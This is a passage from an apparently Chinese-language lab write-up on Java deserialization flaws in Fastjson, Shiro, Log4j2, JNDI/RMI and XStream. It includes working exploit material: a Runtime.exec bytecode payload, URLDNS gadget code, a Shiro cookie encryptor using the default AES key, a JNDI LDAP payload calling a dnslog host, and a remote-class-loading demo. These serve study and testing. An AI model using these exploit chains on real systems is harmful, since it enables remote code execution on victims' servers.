W1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAUABwAAAAAABAABAAgACQACAAoAAABAAAIAAQAAAA4qtwABuAACEgO2AARXsQAAAAIACwAAAA4AAwAAABEABAASAA0AEwAMAAAADAABAAAADgANAA4AAAAPAAAABAABABAAAQARABIAAQAKAAAASQAAAAQAAAABsQAAAAIACwAAAAYAAQAAABcADAAAACoABAAAAAEADQAOAAAAAAABABMAFAABAAAAAQAVABYAAgAAAAEAFwAYAAMAAQARABkAAgAKAAAAPwAAAAMAAAABsQAAAAIACwAAAAYAAQAAABwADAAAACAAAwAAAAEADQAOAAAAAAABABMAFAABAAAAAQAaABsAAgAPAAAABAABABwACQAdAB4AAgAKAAAAQQACAAIAAAAJuwAFWbcABkyxAAAAAgALAAAACgACAAAAHwAIACAADAAAABYAAgAAAAkAHwAgAAAACAABACEADgABAA8AAAAEAAEAIgABACMAAAACACQ="],'_name':'a.b','_tfactory':{ },"_outputProperties":{ }}
```

发现攻击失败。



### 组件漏洞 - Shiro反序列化

[Java反序列化之Shiro反序列化利用 - 先知社区](https://xz.aliyun.com/t/12702?time__1311=GqGxu7i%3DT4gDlrzG7DyGQ%3DG%3DaGQ6IUo3x#toc-0)

#### 介绍：

```
Apache Shiro是一个强大的开源安全框架，主要用于Java应用程序的认证、授权、加密和会话管理。在1.2.4及以前版本存在多个反序列化漏洞(例如：Shiro-550 Shiro-721)。
  Shiro 550漏洞利用过程：攻击者通过已知的Shiro默认加密密钥解密、修改并重新加密恶意序列化对象到remember-me Cookie中，服务器在处理该Cookie时反序列化恶意对象，导致远程代码执行(RCE)。
```

#### 漏洞环境

获取Shiro硬编码密钥做演示

tips

```
服务器接收cookie处理的流程：得到RememberMe的cookie值->Base64解码->AES解密->反序列化
```

#### 缺陷代码

```
public R getShiroKey(){
    try{
        byte[] key = new CookieRememberMeManager().getCipherKey();
        return R.ok("Shiro AES密钥硬编码为："+new String(Base64.getEncoder().encode(key)));
    }catch (Exception ignored){
        return R.error("获取AES密钥失败！");
    }
}

<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-spring</artifactId>
    <version>1.2.4</version>
</dependency>
```

运行后可以看到密匙

  
现在来实操利用下urldns，看看漏洞是否存在

```
package EXP;
import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {

    public static void main(String[] args) throws Exception{
        HashMap<URL,Integer> hashmap = new HashMap<URL,Integer>();
        URL url=new URL("http://jkhw9v.dnslog.cn");


        Class c = url.getClass();
        Field hashcodefield = c.getDeclaredField("hashCode");
        hashcodefield.setAccessible(true);
        hashcodefield.set(url,1234);
        hashmap.put(url,1);

        hashcodefield.set(url,-1);
        serialize(hashmap);

    }

    public static void serialize(Object obj) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
}
```

生成ser.bin,把ser.bin复制到pycharm

然后进行ShiroAES加密：

```
import base64
import uuid
from random import Random
from Crypto.Cipher import AES
def get_file_data(filename):
    with open(filename,'rb') as f:
        data = f.read()
    return data
def aes_enc(data):
    BS = AES.block_size
    pad = lambda s:s +((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    mode = AES.MODE_CBC
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key),mode,iv)
    ciphertext = base64.b64encode(iv + encryptor.encrypt(pad(data)))
    return ciphertext
def aes_dec(enc_data):
    enc_data = base64.b64encode(enc_data)
    unpad = lambda s : s[:-s[-1]]
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    mode = AES.MODE_CBC
    iv = enc_data[:16]
    encryptor = AES.new(base64.b64decode(key),mode,iv)
    plaintext = encryptor.decrypt(enc_data[16:])
    plaintext = unpad(plaintext)
    return plaintext
if __name__ == '__main__':
    data = get_file_data("ser.bin")
    print(aes_enc(data))
```

  
[github](https://github.com/apache/shiro/releases/tag/shiro-root-1.2.4)上下载源码，配上tomcat运行shiro-web

  
起tomcat服务抓包<http://localhost:8080/samples_web_war/>

  
利用成功



### 组件漏洞 - Log4j2反序列化

#### 介绍

```
log4j是开源的日志记录框架，用于记录程序输入输出日志信息，log4j2中存在JNDI注入漏洞，当程序记录用户输入的数据时，即可触发该漏洞，成功利用该漏洞可在目标服务器上执行任意代码。
```

#### 漏洞环境

##### tips

```
漏洞原理：
  log4j2在日志输出中，一旦在log字符串中检测到${}，就会调用lookup查询尝试解析其中的字符串，如果未对字符合法性进行严格的限制，攻击者构造恶意的URL地址让其解析，利用 JNDI协议加载的远程恶意脚本，从而造成RCE。
安全编码规范：
升级方案：升级Log4j至2.15.0及以上稳定版本
临时缓解：修改配置文件log4j2.component.propertieslog4j2.formatMsgNoLookups=True
```

#### 缺陷代码

```
public String vul(String payload) {
    //此处解析${}从而触发漏洞
    logger.error(payload);  
    return "[+]Log4j2反序列化："+payload;
}

<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.8.2</version>
</dependency>

<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.8.2</version>
</dependency>
```

执行payload：

```
${jndi:ldap://mp9q7b.dnslog.cn/test}
```

  
dnslog.cn成功接受到，


##### 想要理解就不得不讲以下jndi注入漏洞

以下是wiki的描述：

```
Java命名和目录接口（Java Naming and Directory Interface，缩写JNDI），是Java的一个目录服务应用程序接口（API），它提供一个目录系统，并将服务名称与对象关联起来，从而使得开发人员在开发过程中可以使用名称来访问对象。
```

根据wiki的描述，JNDI全称为Java Naming and Directory Interface，也就是Java命名和目录接口。既然是接口，那么就必定有其实现，而目前我们Java中使用最多的基本就是rmi和ldap的目录服务系统。而命名的意思就是，在一个目录系统，它实现了把一个服务名称和对象或命名引用相关联，在客户端，我们可以调用目录系统服务，并根据服务名称查询到相关联的对象或命名引用，然后返回给客户端。而目录的意思就是在命名的基础上，增加了属性的概念，我们可以想象一个文件目录中，每个文件和目录都会存在着一些属性，比如创建时间、读写执行权限等等，并且我们可以通过这些相关属性筛选出相应的文件和目录。而JNDI中的目录服务中的属性大概也与之相似，因此，我们就能在使用服务名称以外，通过一些关联属性查找到对应的对象。

总结的来说：JNDI是一个接口，在这个接口下会有多种目录系统服务的实现，我们能通过名称等去找到相关的对象，并把它下载到客户端中来。

##### 这里用一个例子简单讲解下JNDI注入，先放一个理解图

  
RMIServer.java

```
package jndi_rmi_injection;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import javax.naming.Reference;
import com.sun.jndi.rmi.registry.ReferenceWrapper;

public class RMIServer {
    public static void main(String[] args) throws Exception{
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        Registry registry = LocateRegistry.createRegistry(7778);
        Reference reference = new Reference("Calculator","Calculator","http://127.0.0.1:8081/");
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
        registry.bind("RCE",wrapper);
    }

}
```

RMIClient.java

```
package jndi_rmi_injection;

import javax.naming.InitialContext;
import javax.naming.NamingException;
public class RMIClient {
    public static void main(String[] args) throws NamingException{
        String uri = "rmi://127.0.0.1:7778/RCE";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(uri);
    }
}
```

起个恶意的web服务，服务目录下编译一个危险的java类

代码：

```
public class Calculator {
    public Calculator() throws Exception {
        Runtime.getRuntime().exec("calc");
    }
}
```

打开cmd

  
执行代码：

```
javac -source 8 -target 8 Calculator.java
```

然后起服务

  
先运行RMIServer，然后运行RMIClient，就可以弹计算器了



### 组件漏洞 - XStream反序列化

```
Xstream是一种OXMapping技术，是用来处理XML文件序列化的框架，将Java对象序列化为XML或将XML反序列化为Java对象
  XStream框架的反序列化漏洞在于其支持的某些转换器（如DynamicProxyConverter）允许攻击者通过构造包含特殊标签（如dynamic-proxy标签）的恶意XML，并通过handler标签指向可执行任意代码的类或对象，从而在反序列化过程中触发任意代码执行
```

#### 漏洞环境



#### 缺陷代码

```
public String vul(@RequestBody String content) {
    XStream xs = new XStream();
    Object result = xs.fromXML(content);  // 反序列化得到的对象

    // 检查反序列化后的结果并返回相关信息
    return "组件漏洞-Xstream Vul, 反序列化结果: \n" + result.toString();
}
```

漏洞环境无法加载。

## 总结

lab只是带我们全面认识java的漏洞，至于深入了解还得跟着链子走一遭。

参考文章：

[Java反序列化之Shiro反序列化利用 - 先知社区](https://xz.aliyun.com/t/12702?time__1311=GqGxu7i%3DT4gDlrzG7DyGQ%3DG%3DaGQ6IUo3x#toc-0)

[W01fh4cker/LearnFastjsonVulnFromZero-Basic: 【两万字原创】零基础学fastjson漏洞（基础篇），公众号：追梦信安](https://github.com/W01fh4cker/LearnFastjsonVulnFromZero-Basic)

[Java 反序列化漏洞始末（5）— XML/YAML - 浅蓝 's blog](https://b1ue.cn/archives/239.html)
